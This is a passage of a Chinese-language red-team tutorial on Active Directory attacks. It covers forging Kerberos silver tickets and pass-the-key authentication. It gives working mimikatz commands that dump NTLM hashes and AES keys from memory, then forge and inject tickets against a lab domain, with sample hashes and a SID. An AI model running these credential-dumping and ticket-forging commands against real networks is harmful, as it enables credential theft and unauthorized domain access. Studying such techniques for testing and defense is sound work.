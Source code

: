 `Sliver ticket`和`golden ticket`不同的是, 它不需要和域控制器进行通信，原理是伪造 TGS，使用的是计算机账户的 hash 进行加密的，所以只能访问指定的权限。

不像是`Golden ticket`，是由 krgtgt 用户的密码 hash 进行加密，伪造 tgt 可以获取到所有权限。

白银票据这里只是对单一的服务进行授权，利用过程和`golden ticket`差不多，首先上域控制器中，把机器的 ntlm hash(rc4 加密) dump 下来, 然后在普通域用户机器进行伪造权限, 进行 ptt。

登录 DC，抓取 ntlm hash

```
mimikatz log privilege::debug sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlbjpJx0ibgbu4hsqTv6zsPEwsicxVmjB3aUuDOBwtQCXRSTFNVEVtuHsg/640?wx_fmt=png)

在普通域用户中生成票据

```
kerberos::golden /domain:Drunkmars.com /sid:S-1-5-21-652679085-3170934373-4288938398 /target:WIN-M836NN6NU8B.Drunkmars.com /service:cifs /rc4:7c64e7ebf46b9515c56b2dd522d21c1c /user:administrator /ptt
```

**

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlnwZu47nef3QujRIBv46uSInrIAP2vcZfZj4ibDApdrrbSKnSaA6vlNg/640?wx_fmt=png)

**

查看票证访问域控

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlKjHlbf1D6YtWBZqX66HHsTRBNYYN21gqUst4qX1ePDTeRcuDU3CtVQ/640?wx_fmt=png)

PTK(pass the key)
=================

在连接配置的时候允许使用 hash 进行认证，而不是只有账号密码才能认证。

就是由于在进行认证的时候，是用用户 hash 加密时间戳，即使在使用密码进行登录的情况下，也是先把密码加密成 hash，再进行认证。因此在只有用户 hash，没有明文密码的情况下也是可以进行认证的。不管是 rubeus 还是 impacket 里面的相关脚本都是支持直接使用 hash 进行认证。其中，如果 hash 的 ntlm hash，然后加密方式是 rc4，这种就算做是 pass the hash，如果是 hash 是 aes key(使用 sekurlsa::ekeys 导出来)，就算是 pass the key。在很多地方，不支持 rc4 加密方式的时候，使用 pass the key 不失为一种好方法。

获取 aes key

```
mimikatz log privilege::debug sekurlsa::ekeys
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlNCjQoB3HJQuUMmXqcMCZLYIImLU9VJwVibXHTtR0qL0w0IUkDRrwjpw/640?wx_fmt=png)

注入 aes key

```
mimikatz "privilege::debug" "sekurlsa::pth /user:mars2 /domain:Drunkmars.com /aes256:a207497d6c9df363b6658271ac0df1862c395d6b32003a5207dde3803f7dae0d"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8sxgzUUjNZr9Jok4PCiaLBlEkT7pEyBVSoau3OjSRAGV8ibgTt84oZZcGiajlykSmk9trfGQTfVW7Zw/640?wx_fmt=png)

后记
==
